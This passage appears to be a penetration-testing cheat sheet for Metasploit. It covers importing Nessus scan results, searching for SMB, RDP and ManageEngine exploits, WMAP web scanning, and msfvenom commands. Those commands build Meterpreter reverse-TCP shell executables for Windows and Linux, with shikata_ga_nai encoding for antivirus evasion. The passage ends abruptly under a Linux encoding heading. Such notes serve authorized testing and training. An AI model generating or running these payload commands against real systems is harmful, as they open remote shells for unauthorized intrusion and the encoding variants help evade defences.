 ```bash
# NESSUS Results Import
db_import /home/kali/Downloads/MS3_zph3t5.nessus
hosts
services
vulns
vulns -p 445

search cve:2017 name:smb
search MS12-020
search cve:2019 name:rdp
search cve:2015 name:ManageEngine
search PHP CGI Argument Injection
```

```bash
# WMAP in msfconsole
load wmap
wmap_sites -a <TARGET_IP>
wmap_sites -l
wmap_targets -t <URL>
wmap_targets -l

wmap_run -t
wmap_run -e
wmap_vulns -l

# msfconsole
use auxiliary/scanner/http/http_put
```

### Payloads

#### MSFVenom shells

```bash
msfvenom --list payloads
msfvenom --list formats
msfvenom --list encoders

# Win 32bit
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x86>.exe

# Win 64bit
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe > <PAYLOAD_FILE_x64>.exe

# Linux 32bit
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x86>

# Linux 64bit
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f elf > <PAYLOAD_FILE_x64>

# Win 32bit + shikata_ga_nai encoded
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Use more encoding iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Linux 32bit + shikata_ga_nai encoded
```